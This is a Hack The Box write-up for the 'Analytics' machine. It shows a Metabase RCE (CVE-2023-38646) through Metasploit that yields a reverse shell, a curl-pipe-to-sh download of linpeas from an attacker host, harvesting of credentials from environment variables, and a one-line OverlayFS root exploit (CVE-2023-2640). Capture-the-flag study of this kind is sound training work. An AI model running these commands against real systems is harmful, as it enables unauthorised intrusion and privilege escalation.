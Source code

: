 # Analytics

A writeup for the machine [Analytics](https://app.hackthebox.com/machines/Analytics) on Hack The Box.

<Image src={require("./banner.png").default} height="500" />

## Footprinting

### Nmap scans

Firstly, we can start with a nmap scan.

We find two open ports with one web servers publicly accessible.

```bash
nmap -sS <HOST>
```

```
22 -> SSH
80 -> HTTP
```

<Image src={require("./nmap.png").default} />

### Web server

To access the web server, we need to update the `/etc/hosts` file with the machine IP.

```
echo "10.10.11.233 analytics.htb" >> /etc/hosts
```

The web server is running a simple website with an home page and a login page.

<Image src={require("./homepage.png").default} />

If we try to open the login page we are redirected to a new subdomain `data.analytics.htb`.

After updating again the hosts file, we can access the login page.

The login page is running a `Metabase` instance, an open-source web analytics platform.

<Image src={require("./login.png").default} />

## User flag

### Exploiting Metabase

If we look to the source code of the login page, we can find some interesting information of the service.

One of the details contains the version of the `Metabase` instance.

<Image src={require("./metabase-version.png").default} />

By searching online for this specifc version, we can find a RCE vulnerability and an Metasploit exploit for it.

[https://nvd.nist.gov/vuln/detail/CVE-2023-38646](https://nvd.nist.gov/vuln/detail/CVE-2023-38646)

[https://packetstormsecurity.com/files/174091/Metabase-Remote-Code-Execution.html](https://packetstormsecurity.com/files/174091/Metabase-Remote-Code-Execution.html)

```bash
msfconsole
use exploit/multi/http/metabase_unauth_rce
set RHOSTS data.analytics.htb
set RPORT 80
set LHOST ATTACKER_IP
run
```

After running the exploit, we can get a reverse shell as the `metabase` user.

```bash
whoami
```

<Image src={require("./reverse-shell.png").default} />

### From metabase to user

Once inside the machine, we discover that we are in a docker container.

We can still try to find some interesting information to escalate our privileges.

One possible way is to run `linpeas`.

```bash
# attacker
python3 -m http.server 80
# target
curl http://ATTACKER_IP/linpeas.sh | sh
```

Inside the environment variables, we can find a username and a password for the `metalytics` user.

```bash
echo $META_USER
echo $META_PASS
```

<Image src={require("./env-vars.png").default} />

### Accessing with SSH

We can use the credentials that we found in the previous step to login via SSH.

```bash
ssh metalytics@TARGET_IP
```

After logging in, we can find the user flag inside the home directory.

```bash
cat user.txt
```

<Image src={require("./user-flag.png").default} height="512" />

## Root flag

### Enumerating the environment

Now that we are inside the system, we can start to look for a way to escalate our privileges.

Nothing interesting is found in the home directory or in the user's history.

We can again use `linpeas` to find additional information.

As before, we can serve the script on our local machine and download it on the target.

Even in this case, nothing interesting is found.

### Exploiting CVE-2023-2640

Because we didn't find anything useful, we can start looking for possible vulnerabilities in the system.

To do so, we can start by checking the version of the operating system.

```bash
cat /etc/os-release
```

<Image src={require("./ubuntu-version.png").default} />

By searching online we can see that this version is vulnerable to the OverlayFS vulnerability.

[https://nvd.nist.gov/vuln/detail/CVE-2023-2640](https://nvd.nist.gov/vuln/detail/CVE-2023-2640)

A simple exploit can allow us to run commands as root.

It is enough to execute the following command to get the root flag.

[https://github.com/luanoliveira350/GameOverlayFS/blob/main/gameoverlay.sh](https://github.com/luanoliveira350/GameOverlayFS/blob/main/gameoverlay.sh)

```bash
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/
setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("ls /root")'
```

Be careful, it should be run as a single command or run it through a script.

<Image src={require("./root.png").default} />

